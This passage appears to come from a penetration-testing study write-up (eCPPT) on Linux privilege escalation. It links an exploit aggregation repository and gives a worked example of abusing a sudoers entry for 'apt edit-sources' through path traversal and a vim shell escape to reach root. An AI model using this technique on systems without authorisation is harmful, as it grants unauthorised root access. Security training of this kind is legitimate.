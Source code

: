 - Local Unix PrivEsc Aggregation - FuzzySecurity (Kernel Exploits):
	https://github.com/FuzzySecurity/Unix-PrivEsc


#### extra [+] - privesc
run LinuxPrivChecker
example:
```
Sudoer
	user ALL=(root) NOPASSWD: /usr/bin/apt edit-sources ../*

sudo /usr/bin/apt edit-sources ../../../../tmp/foo 
option 3 = vim.basic
:!sh

```

> we have root access

Summary regarding our network state:

![Alt text](/assets/images/posts/2023-11-19-ecppt/23.png){: .align-center}


Summary regarding our System information:

![Alt text](/assets/images/posts/2023-11-19-ecppt/24.png){: .align-center}
